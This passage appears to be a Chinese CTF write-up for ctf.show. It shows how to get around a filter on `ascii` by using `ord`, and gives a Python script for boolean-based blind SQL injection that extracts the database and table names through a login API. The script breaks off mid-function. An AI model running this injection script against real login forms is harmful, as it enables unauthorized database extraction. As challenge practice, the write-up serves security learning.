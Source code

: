 过滤了`ascii` ，所以不能使用上题的方式了。

可以使用 `ord` 代替 `ascii` 。

* ord(str)   	如果字符串str的最左边的字符是一个多字节字符返回该字符，用这个公式其组成字节的数值计算的代码,如果最左边的字符不是一个多字节字符，ORD()返回相同的值如ASCII()函数。

  如 `select ord('a');`  则返回 a 的 ascii 码值。

那么只需更改一下上官的脚本就可以直接拿到flag了。

```python
# Author: yanmie

import requests

url = "http://5f86e6f7-cc18-49ae-8d60-b7184fde02d2.chall.ctf.show/api/"


# 查询当前数据库
def getDatabase():
    payload = "0'or(ord(substr(database(),{},1))>{})='1"
    i = 0
    database = ""

    while True:
        i +=1
        head = 0
        tail = 127
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(i,mid),
                "password" : 0
            }
            response = requests.post(url=url,data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return database
        database += chr(head)

# 查询所有表名
def getTable():
    payload = "0'or(ord(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{})='1"
    i = 0
    table_name = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(i,mid),
                "password" : 0,
            }
            response = requests.post(url=url,data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
```
